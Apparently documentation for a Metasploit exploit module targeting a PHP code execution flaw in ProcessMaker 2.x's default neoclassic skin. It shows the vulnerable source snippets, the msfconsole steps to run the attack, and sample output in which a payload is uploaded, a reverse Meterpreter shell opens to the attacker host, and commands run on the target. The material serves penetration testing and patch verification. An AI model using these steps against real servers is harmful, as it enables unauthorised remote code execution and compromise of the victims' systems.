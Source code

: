 ## Description

  This module exploits a PHP code execution vulnerability in the default *neoclassic* skin for [ProcessMaker Open Source](http://www.processmaker.com/) which allows any authenticated user to execute PHP code. The vulnerable skin is installed by default in version 2.x prior to 2.5.2 and cannot be removed via the web interface.


## Vulnerable Application

  ProcessMaker is an open source, workflow management software suite, which includes tools to automate your workflow, design forms, create documents, assign roles and users, create routing rules, and map an individual process quickly and easily. It's relatively lightweight and doesn't require any kind of installation on the client computer.

  This module has been tested successfully on ProcessMaker Open Source versions 2.5.1, 2.5.0, 2.0.23 on Windows XP SP3; and version 2.0.45 on Debian Linux.

  The vulnerability was patched in version 2.5.2.

  Source and Installers:

  * [ProcessMaker Open Source 2.0.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.0/)
  * [ProcessMaker Open Source 2.5.x](https://sourceforge.net/projects/processmaker/files/ProcessMaker/2.5/)


## Technical Details

  Several files within the default *neoclassic* skin allow authenticated users to supply a PHP function in the `action` parameter and arguments for the aforementioned function in the `params` parameter. The application calls the supplied function name with the supplied parameters resulting in execution of arbitrary user supplied PHP code.

  The relevant source code for the affected files is shown below.

  **appFolder/appFolderAjax.php**

  ```php
  if (($_REQUEST['action']) != 'rename') {
      $functionName = $_REQUEST ['action'];
      $functionParams = isset ($_REQUEST ['params']) ? $_REQUEST ['params'] : array ();
      $functionName ($functionParams);
  ```

  **cases/casesStartPage_Ajax.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```

  **cases/cases_SchedulerGetPlugins.php**

  ```php
  $functionName = $_REQUEST['action'];
  $functionParams = isset( $_REQUEST['params'] ) ? $_REQUEST['params'] : array ();
  $functionName( $functionParams );
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Do: `use exploit/multi/http/processmaker_exec`
  3. Do: `set username [USER]`
  4. Do: `set password [PASS]`
  5. Do: `set rhost [IP]`
  6. Do: `run`
  7. You should get a session


## Sample Output

  ```
  msf exploit(processmaker_exec) > check
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending check
  [+] The target is vulnerable.

  msf exploit(processmaker_exec) > exploit
  [*] Started reverse handler on 192.168.172.1:4444
  [*] 192.168.172.135:80 - Authenticating as user 'admin'
  [+] 192.168.172.135:80 - Authenticated as user 'admin'
  [*] 192.168.172.135:80 - Sending payload 'V7hd5EevO9Ho.php' (1795 bytes)
  [+] 192.168.172.135:80 - Payload sent successfully
  [*] 192.168.172.135:80 - Retrieving file 'V7hd5EevO9Ho.php'
  [*] Sending stage (39195 bytes) to 192.168.172.135
  [*] Meterpreter session 3 opened (192.168.172.1:4444 -> 192.168.172.135:32789) at 2013-10-29 09:53:08 -0500
  [+] Deleted V7hd5EevO9Ho.php

  ^C[-] Exploit failed: Interrupt

  meterpreter > getuid
  Server username: www-data (33)
  meterpreter > sysinfo
  Computer    : processmaker
  OS          : Linux processmaker 3.2.0-4-amd64 #1 SMP Debian 3.2.51-1 x86_64
  Meterpreter : php/php
  meterpreter > exit
  ```


